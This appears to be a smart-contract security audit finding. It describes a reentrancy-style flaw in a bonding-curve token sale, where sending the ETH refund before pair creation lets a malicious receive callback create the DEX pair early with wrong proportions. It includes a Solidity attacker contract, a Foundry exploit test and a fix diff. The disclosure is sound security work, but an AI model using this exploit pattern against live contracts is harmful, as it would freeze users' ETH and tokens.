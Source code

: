This ETH transfer can be exploited. A malicious contract can create a Token/WETH pair within the receive callback. Since the `liquidityGoalReached()` condition is met, the transfer to the router will not revert. After creating the pair, the attacker can send some amount of bonding tokens to the ERC20 contract to disable `liquidityGoalReached()`, preventing the pair from being created a second time and ensuring the attack does not revert. A pair can then be created with incorrect proportions.

As a result, when the sale finally reaches its cap, the `_createPair` transaction will fail, causing the bonding token to remain stuck in the sale phase and trapping the collected ETH and minted tokens.

Coded POC for `ContinuosBondingERC20TokenTest.t.sol`:

Malicious contract:

```solidity
contract Refundee {
    address internal router = 0x60aE616a2155Ee3d9A68541Ba4544862310933d4; // trader joe router
    receive() external payable {
        console2.log("HUH");
        ContinuosBondingERC20Token(msg.sender).approve(router, 1 ether);
        address wNative = IJoeRouter02(router).WAVAX();
        console2.log("SUCC: ", address(this).balance);
        IJoeRouter02(router).addLiquidityAVAX{ value: 1 ether }(
            msg.sender, 1 ether, 1, 1, address(this), block.timestamp
        );
        ContinuosBondingERC20Token(msg.sender).transfer(msg.sender, 200_000_001 ether);
    }
}
```

Exploit:

```solidity
    function testPooled() public {
        address attacker = address(new Refundee());
        vm.deal(attacker, 10_000 ether);
        vm.deal(user, 10_000 ether);
        vm.startPrank(attacker);

        bondingERC20Token.buyTokens{ value: 202.2 ether }(0);
        // This call will revert and the token will be stuck in the initial sale phase
        vm.startPrank(user);
        vm.expectRevert();
        bondingERC20Token.buyTokens{ value: 200 ether }(0);
    }
```

**Recommendations**

```diff
-        (bool sent,) = msg.sender.call{ value: refund }("");
-        if (!sent) {
-            revert FailedToSendETH();
-        }

        if (liquidityGoalReached()) {
            _createPair();
        }

+        (bool sent,) = msg.sender.call{ value: refund }("");
+        if (!sent) {
+            revert FailedToSendETH();
+        }
```
